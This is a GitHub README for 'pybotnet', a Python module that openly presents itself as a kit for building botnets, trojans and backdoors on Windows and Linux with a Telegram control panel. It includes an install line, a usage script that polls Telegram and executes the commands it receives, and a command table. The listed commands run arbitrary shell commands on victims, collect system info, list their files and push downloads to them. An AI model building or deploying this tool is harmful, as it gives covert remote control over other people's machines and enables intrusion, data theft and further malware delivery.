  
 <p align="center">
  <a href='https://github.com/onionj/pybotnet' target='_blank'><img src='https://i.postimg.cc/WFSTSLnW/trojan.png' border='0' alt='pybotnet icon'/></a>  <h1    align="center">pybotnet</h1>
  <p align="center"> A Python module for building <b>botnet</b> , <b>trojan</b>  or <b>backdoor</b> for windows and linux with Telegram control panel </p>


  <p align="center">
    <a href="https://github.com/onionj/pybotnet/blob/master/LICENSE">
      <img src="https://img.shields.io/badge/license-GPLv3-blue.svg" />
    </a>
    <a href="https://www.python.org/">
    	<img src="https://img.shields.io/badge/built%20with-Python3-red.svg" />
    </a>
  </p>
</p>
 

> See the [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD) if you want to *help* me 💕


### Features:
* get command from telegram and execute scripts 
* get command and send message by third party proxy
* get target info 
* sleep source by Optional message
* get ls (dirctory list)
* export file to targets system (target download a link :) )
* for more see commands table end of this page 



#### Requirements:

* Python 3.6 or higher
* Telegram account

### Usage:
```
pip install pybotnet
```

```python

from pybotnet import pybotnet
import time

# change TELEGRAM_TOKEN and  ADMIN_CHAT_ID to valid data:

# telegram api token (Get it from the telegram @botfather)
TELEGRAM_TOKEN = '1468299547:ABHs_________MzZcYxF_e00000000000'

# telegram account number ID (get it from @userinfobot)
ADMIN_CHAT_ID = '12345678910'



# * is_sheel:          if you compile code without shell: is_sheel=False
# * show_log:          just for debugging
# * send_system_data:  send system short info in every bot messages in telegram

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID,
                        show_log=True, send_system_data=True, is_shell=True)

delay = 10

while True:
    print('*'*100)
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

### Commmands:

> Send this COMMANDs to your api bot in telegram, using the admin account.



COMMAND | Sample | DO THIS | Minimum version required | tested on |
--------|--------|---------|--------------------------|-----------|
`get_info` | `get_info` |return system info | 0.06 | windows, linux |
`do_sleep <scconds> <message (Optional)>` | `do_sleep 99999 hi, i see you!` | \<if message != none : print(message) > ; time.sleep(seccond) | 0.08 | windows, linux |
`cmd <system command>` | `cmd mkdir new_folder` | run system command in shell or cmd (Be careful not to give endless command like `ping google.com -t`  in windows or `ping google.com` in linux)  TODO:add timeout| 0.07 | windows, linux|
`ls <route>` | `ls C:\ `,` ls /home` |Returns a list of folders and files in that path | 0.09 | windows, linux |
`export_file <link>` | `export_file https://github.com/onionj/pybotnet/archive/refs/heads/master.zip` |target donwload this file and save to script path route| 0.14 | windows linux|



>  for run command on one target:  `<Target_MAC_Address> <command>`   `66619484755211 get_info` 

